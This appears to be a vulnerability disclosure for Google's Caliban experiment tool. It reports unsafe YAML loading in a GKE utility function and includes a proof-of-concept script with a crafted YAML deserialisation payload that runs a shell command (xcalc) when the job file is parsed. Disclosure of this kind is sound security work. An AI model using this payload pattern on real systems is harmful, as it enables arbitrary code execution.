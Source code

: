 ## ✍️ Description
Caliban is a tool that helps researchers launch and track their numerical experiments in an isolated, reproducible computing environment. It was developed by machine learning researchers and engineers, and makes it easy to go from a simple prototype running on a workstation to thousands of experimental jobs running on Cloud.
* **Vulnerability discription**
Vulnerable to yaml deserilisation attack caused by unsafe loading.
## 🕵️‍♂️ Proof of Concept
* [vulnerable part of code](https://github.com/google/caliban/blob/56f96e7e05b1d33ebdebc01620dc867f7ec54df3/caliban/platform/gke/util.py#L790)
```python
job_spec = yaml.load(f, Loader=yaml.FullLoader)
```
```python
# exploit.py
import os
os.system('pip install caliban')
import caliban.platform.gke.util as ut
exploit = '''!!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('xcalc')"
'''
os.system('rm exploit.*')
open('exploit.yaml','w+').write(exploit)
ut.parse_job_file('exploit.yaml')
```
![](https://cdn.discordapp.com/attachments/789769803770494996/791701814150955028/Screenshot_from_2020-12-24_21-37-49.png)
